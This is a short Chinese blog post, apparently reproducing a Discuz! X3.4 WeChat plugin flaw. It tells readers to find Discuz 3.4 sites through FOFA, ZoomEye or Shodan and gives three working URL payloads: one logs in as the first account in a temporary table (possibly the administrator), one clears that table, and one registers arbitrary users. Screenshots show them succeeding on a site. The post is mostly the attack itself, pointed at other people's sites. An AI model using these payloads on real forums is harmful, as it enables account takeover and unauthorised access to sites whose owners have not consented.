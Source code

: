## 前言

下午回到宿舍看到文章，特地复现一波  
文章来源：

https://gitee.com/ComsenzDiscuz/DiscuzX/issues/IPRUI
<https://www.sk15.net/archives/119.html>


## 正文

上fofa或zoomeye或shodan用语法找给dz3.4的站来测试  
![](https://s2.ax1x.com/2019/02/18/kcMOlq.png)

文章给出的payload有三个

```php 
随机登陆一个账号(登录tmp里的的第一个用户，如果admin在第一个就可以直接登admin)
/plugin.php?id=wechat:wechat&ac=wxregister&username={username}

清空tmp

/plugin.php?id=wechat:wechat&ac=unbindmp&uid={uid}&hash={csrf_hash}

注册账号

/plugin.php?id=wechat:wechat&ac=wxregister&username={username}&wxopenid=abcdefg
```
第一个payload测试

`php http://www.xxx.com/plugin.php?id=wechat:wechat&ac=wxregister&username=disjkdjsaiodasd`![](https://s2.ax1x.com/2019/02/18/kcQm7D.md.png)

返回主页刷新一下(注意右上角)  
![](https://s2.ax1x.com/2019/02/18/kcQ09s.png)

第二个payload是清空tmp的，清空后第一个payload就无法使用所以这里不测试

第三个payload是任意注册用户的

`php /plugin.php?id=wechat:wechat&ac=wxregister&username={填你自己想的用户名}&wxopenid={这里的id可以乱填}`比如下图所示：  
![](https://s2.ax1x.com/2019/02/18/kcQv8A.png)

返回主页刷新  
![](https://s2.ax1x.com/2019/02/18/kcQzvt.png)

成功注册  
![](https://s2.ax1x.com/2019/02/18/kclCb8.png)

只要安了微信插件的有可能可以

